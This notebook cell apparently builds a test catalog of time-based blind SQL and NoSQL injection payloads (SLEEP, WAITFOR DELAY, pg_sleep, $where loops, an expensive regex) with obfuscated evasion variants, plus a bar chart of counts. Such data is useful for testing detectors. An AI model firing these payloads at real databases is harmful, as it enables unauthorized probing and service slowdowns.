

Notebook cell for this chart:
### Code cell
# Cell 4: Days 26-27 - Time-Based Blind Injection Sample Generation

import random

print("="*80)
print("PHASE 3: DAYS 26-27 - TIME-BASED BLIND INJECTION TRANSFORMATIONS")
print("="*80)

print("\nObjective: Generate time-based blind payloads (SQL/NoSQL), obfuscated variants, catalog & validation set")
print("\nCoverage: All major SQL dialects, non-SQL (NoSQL) time attacks, obfuscation, provenance metadata")

print("\n" + "="*80)
print("SECTION 1: BLIND/TIME-BASED PAYLOAD TEMPLATES")
print("="*80)

# Define canonical time-based payloads for each SQL dialect
TIME_BASED_SQL_PAYLOADS = {
    "MySQL": [
        "'; SLEEP({delay}); -- ",
        "' AND SLEEP({delay}) -- ",
        "' OR SLEEP({delay})#",
        "1 OR SLEEP({delay})",
        "' AND IF(1=1, SLEEP({delay}), 0) -- "
    ],
    "MSSQL": [
        "'; WAITFOR DELAY '00:00:{delay:02d}'--",
        "'; IF (1=1) WAITFOR DELAY '00:00:{delay:02d}'--",
        "1; WAITFOR DELAY '00:00:{delay:02d}'--",
        "'+WAITFOR+DELAY+'00:00:{delay:02d}';--"
    ],
    "PostgreSQL": [
        "'; SELECT pg_sleep({delay}); --",
        "' OR pg_sleep({delay}) --",
        "' AND (SELECT CASE WHEN (1=1) THEN pg_sleep({delay}) END) --"
    ]
}

# Boolean blind and error-based templates
BOOLEAN_BLIND_PAYLOADS = [
    "' AND 1=CASE WHEN (SLEEP({delay}) IS NULL) THEN 1 ELSE 0 END--",
    "'||(SELECT CASE WHEN (1=1) THEN pg_sleep({delay}) ELSE NULL END )||'",
    "' AND IF((SELECT COUNT(*) FROM users)>0, SLEEP({delay}), 0)--"
]

ERROR_BASED_PAYLOADS = [
    "' AND (SELECT 1 FROM (SELECT(SLEEP({delay})))a)--",
    "' OR updatexml(1,concat(0x7e,SLEEP({delay})),1)--",
    "' AND extractvalue(1,concat(0x7e,(SELECT SLEEP({delay}))))--"
]

# NoSQL time-based analogues
NOSQL_TIME_BASED_PAYLOADS = [
    "{\"$where\": \"function() { var start = new Date(); while(new Date()-start < " + "{ms}" + "){}; return true; }\" }",
    "{\"username\": { \"$regex\": \".*a.*a.*a.*a.*a.*a.*a.*a.*a.*a.*a.*a.*\" } }",  # Expensive regex
    "{\"$where\": \"sleep(" + "{delay}" + ")\"}",
    "{\"$where\": \"for(i=0;i<1e" + "{power}" + ";i++){{}}; return true; \"}"
]

print("Defined SQL and NoSQL base payloads for time-based, boolean, and error-based injection.")

print("\n" + "="*80)
print("SECTION 2: AUTOMATED DIVERSIFICATION FUNCTIONS")
print("="*80)

DELAYS = [1, 3, 5, 7, 10]
PLATFORMS = list(TIME_BASED_SQL_PAYLOADS.keys()) + ['NoSQL']
OBFUSCATION_FORMS = [
    ("none", lambda s: s),
    ("injected_comment", lambda s: s.replace("SLEEP", "S/*obf*/LEEP")),
    ("extra_spaces", lambda s: re.sub(r" ", lambda _: ' ' * random.randint(2,5), s)),
    ("nested_fn", lambda s: s.replace("SLEEP({delay})", "SLEEP(EXP(0), {delay})")),
    ("mixed_case", lambda s: ''.join(random.choice([c.upper(), c.lower()]) for c in s))
]

def create_time_payloads():
    all_variants = []
    validation_set = []
    fail_set = []
    original_id = 0
    for platform in TIME_BASED_SQL_PAYLOADS:
        for base in TIME_BASED_SQL_PAYLOADS[platform]:
            for delay in DELAYS:
                base_filled = base.format(delay=delay)
                # Boolean and error-based for this platform
                for pay in BOOLEAN_BLIND_PAYLOADS + ERROR_BASED_PAYLOADS:
                    try:
                        all_variants.append({
                            "Query": pay.format(delay=delay),
                            "platform": platform,
                            "base_type": "boolean_or_error",
                            "original_id": original_id,
                            "transform_type": "time-based-blind",
                            "delay_value": delay,
                            "obfuscation": "none"
                        })
                        original_id += 1
                    except Exception as e:
                        fail_set.append({"payload": pay, "delay": delay, "error": str(e)})
                # Normal time-based with obfuscation
                for obf_name, obf_func in OBFUSCATION_FORMS:
                    try:
                        q = obf_func(base_filled)
                        all_variants.append({
                            "Query": q,
                            "platform": platform,
                            "base_type": "direct_time",
                            "original_id": original_id,
                            "transform_type": f"time-based-{obf_name}",
                            "delay_value": delay,
                            "obfuscation": obf_name
                        })
                        original_id += 1
                    except Exception as e:
                        fail_set.append({"payload": base_filled, "obf": obf_name, "error": str(e)})

    # Add NoSQL
    for ns_base in NOSQL_TIME_BASED_PAYLOADS:
        for d in DELAYS:
            if "{ms}" in ns_base:
                filled = ns_base.replace("{ms}", str(d*1000))
            elif "{delay}" in ns_base:
                filled = ns_base.replace("{delay}", str(d))
            elif "{power}" in ns_base:
                filled = ns_base.replace("{power}", str(d+4))
            else:
                filled = ns_base
            all_variants.append({
                "Query": filled,
                "platform": "NoSQL",
                "base_type": "nosql_time",
                "original_id": original_id,
                "transform_type": "nosql-time",
                "delay_value": d,
                "obfuscation": "none"
            })
            original_id += 1
    # Randomly select a validation subset (pure, no obfuscation)
    validation_set = [v for v in all_variants if v['obfuscation'] == 'none' and v['base_type'] != 'boolean_or_error']
    random.shuffle(validation_set)
    validation_set = validation_set[:max(50, int(0.1 * len(validation_set)))]
    return all_variants, validation_set, fail_set

# Generate all samples
all_time_variants, time_validation_set, payload_fail_set = create_time_payloads()
print(f"Total time-based variants generated: {len(all_time_variants):,}")
print(f"Validation set samples: {len(time_validation_set)}")
print(f"Generation failures: {len(payload_fail_set)}")

print("\n" + "="*80)
print("SECTION 3: SAVING PAYLOADS AND VALIDATION SETS")
print("="*80)

# Save main payload catalog
catalog_df = pd.DataFrame(all_time_variants)
catalog_path = '../data/phase3/adversarial_catalog/time_based_variants.csv'
catalog_df.to_csv(catalog_path, index=False)
print(f"Time-based payload catalog saved: {catalog_path}")

# Save validation set separately
validation_df = pd.DataFrame(time_validation_set)
validation_path = '../data/phase3/validation_sets/time_based_validation.csv'
validation_df.to_csv(validation_path, index=False)
print(f"Validation set saved: {validation_path}")

# Save failure log if any
if payload_fail_set:
    fail_path = '../data/phase3/adversarial_catalog/time_payload_failures.json'
    with open(fail_path, 'w') as f:
        json.dump(payload_fail_set, f, indent=2)
    print(f"Failures logged: {fail_path}")

# Generate summary statistics
category_counts = catalog_df.groupby(['platform', 'obfuscation']).size().reset_index(name='count')

# Plotly: Distribution by obfuscation/platform
import plotly.express as px

fig = px.bar(category_counts, 
             x='platform', 
             y='count', 
             color='obfuscation', 
             barmode='group',
             title='Time-Based Injection Variant Distribution by Platform and Obfuscation',
             text_auto=True)
fig.update_layout(xaxis_title="Platform", yaxis_title="Count", height=600, template="plotly_white")
fig.show()


print("\n" + "="*80)
print("DAYS 26-27 COMPLETED - TIME-BASED INJECTION TRANSFORMATIONS")
print("="*80)

print("\nDeliverables Created:")
print("  1. time_based_variants.csv - Catalog of all time-based payloads")
print("  2. time_based_validation.csv - Dedicated evaluation set")
print("  3. time_payload_failures.json - Failures (if any)")
print("  4. time_based_payloads_distribution.png - Distribution plot")
print("  5. Provenance tagging for all payloads (transform_type, original_id, platform, obfuscation)")

print("\nNext Steps: Implement context-aware and advanced obfuscation in payloads")

print("\nPhase 3 Status: 33% complete (7/21 days)")

### Figure 1 — Plotly figure (JSON) as saved in the notebook; plotly's stock layout.template omitted (floating-point values rounded to 4 significant figures)
{"data": [{"alignmentgroup": "True", "hovertemplate": "obfuscation=extra_spaces<br>platform=%{x}<br>count=%{y}<extra></extra>", "legendgroup": "extra_spaces", "marker": {"color": "#636efa", "pattern": {"shape": ""}}, "name": "extra_spaces", "offsetgroup": "extra_spaces", "orientation": "v", "showlegend": true, "textposition": "auto", "texttemplate": "%{y}", "type": "bar", "x": ["MSSQL", "MySQL", "PostgreSQL"], "xaxis": "x", "y": [20, 25, 15], "yaxis": "y"}, {"alignmentgroup": "True", "hovertemplate": "obfuscation=injected_comment<br>platform=%{x}<br>count=%{y}<extra></extra>", "legendgroup": "injected_comment", "marker": {"color": "#EF553B", "pattern": {"shape": ""}}, "name": "injected_comment", "offsetgroup": "injected_comment", "orientation": "v", "showlegend": true, "textposition": "auto", "texttemplate": "%{y}", "type": "bar", "x": ["MSSQL", "MySQL", "PostgreSQL"], "xaxis": "x", "y": [20, 25, 15], "yaxis": "y"}, {"alignmentgroup": "True", "hovertemplate": "obfuscation=mixed_case<br>platform=%{x}<br>count=%{y}<extra></extra>", "legendgroup": "mixed_case", "marker": {"color": "#00cc96", "pattern": {"shape": ""}}, "name": "mixed_case", "offsetgroup": "mixed_case", "orientation": "v", "showlegend": true, "textposition": "auto", "texttemplate": "%{y}", "type": "bar", "x": ["MSSQL", "MySQL", "PostgreSQL"], "xaxis": "x", "y": [20, 25, 15], "yaxis": "y"}, {"alignmentgroup": "True", "hovertemplate": "obfuscation=nested_fn<br>platform=%{x}<br>count=%{y}<extra></extra>", "legendgroup": "nested_fn", "marker": {"color": "#ab63fa", "pattern": {"shape": ""}}, "name": "nested_fn", "offsetgroup": "nested_fn", "orientation": "v", "showlegend": true, "textposition": "auto", "texttemplate": "%{y}", "type": "bar", "x": ["MSSQL", "MySQL", "PostgreSQL"], "xaxis": "x", "y": [20, 25, 15], "yaxis": "y"}, {"alignmentgroup": "True", "hovertemplate": "obfuscation=none<br>platform=%{x}<br>count=%{y}<extra></extra>", "legendgroup": "none", "marker": {"color": "#FFA15A", "pattern": {"shape": ""}}, "name": "none", "offsetgroup": "none", "orientation": "v", "showlegend": true, "textposition": "auto", "texttemplate": "%{y}", "type": "bar", "x": ["MSSQL", "MySQL", "NoSQL", "PostgreSQL"], "xaxis": "x", "y": [140, 175, 20, 105], "yaxis": "y"}], "layout": {"barmode": "group", "height": 600, "legend": {"title": {"text": "obfuscation"}, "tracegroupgap": 0}, "title": {"text": "Time-Based Injection Variant Distribution by Platform and Obfuscation"}, "xaxis": {"anchor": "y", "domain": [0, 1], "title": {"text": "Platform"}}, "yaxis": {"anchor": "x", "domain": [0, 1], "title": {"text": "Count"}}}}
